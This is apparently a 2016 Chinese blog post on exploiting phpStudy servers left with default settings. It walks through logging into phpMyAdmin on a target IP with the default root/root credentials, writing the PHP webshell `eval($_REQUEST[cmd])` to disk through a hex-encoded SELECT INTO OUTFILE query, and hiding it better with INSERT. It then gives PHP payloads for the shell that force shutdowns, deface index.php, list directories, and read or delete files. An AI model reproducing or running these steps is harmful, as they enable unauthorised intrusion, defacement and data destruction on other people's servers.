






# phpstudy的利用

PHPstudy很方便，但是如果默认配置的话，很危险  

--------------------------------------------------------------------------------

如果直接单击启动，会同时打开Apache MySQL  
  
然后知道MySQL默认的用户名和密码都是root  
找个可以访问的ip，比如 1.1.1.1  
这样就可以访问   1.1.1.1/phpmyadmin  
  

如果是默认设置的话就可以进去了  
然后随便选一个表，打开SQL选项卡  
  


接下来参考一下 http://www.2cto.com/Article/200907/40057.html  
`select 0x3c3f706870206576616c28245f524551554553545b636d645d293b3f3e into outfile "d:/xamp/www/ok.php"` 即可将一句话木马 `<?php eval($_REQUEST[cmd]);?>` 导出得到webshell。  

把SQL语句稍微改一下路径  
  

就是这个样子，看到这个提示，说明已经插入成功了，接下来就可以利用了  
这条语句要求a.php这个文件之前不存在，也就是创建一个a.php文件，不够隐蔽  
所以如果想隐蔽的话，应该把 select 换成 insert  （insert 的要求是 插入文件必须存在）    

下面给cmd这个参数赋值各种php语句就好了  
  

--------------------------------------------------------------------------------
举一些例子

强制关机（这个很重要，exec 相当于直接在 cmd 下执行命令）  
  

打开并写入文件内容  
```php
$file='D:/phpstudy/www/index.php';
$fopen=fopen($file,'wb');
fputs($fopen,'i am playing with you!');
fclose($fopen);
```

遍历目录（目录可以自己换）  
```php
$base_dir="D:/phpstudy/www/";
$fso=opendir($base_dir);
echo $base_dir."<hr/>";
while($flist=readdir($fso)){
   echo $flist."<br/>";
}
closedir($fso);
```

读文件  
```php
$file="d:/phpstudy/www/a.php";
if(file_exists($file)==false){
    die('not exist');
}
$data=file_get_contents($file);
echo htmlentities($data);
```

删除文件  
```php
$file="d:/phpstudy/www/a.php";
$result=@unlink($file);
if($result==false){
    echo 'has delete';
}else{
    echo 'cant delete';
}
```

--------------------------------------------------------------------------------
最后，这种方法能奏效的都是比较渣的没有杀毒软件的目标，有杀软的立马就检测出来了


---
2016/6/15  
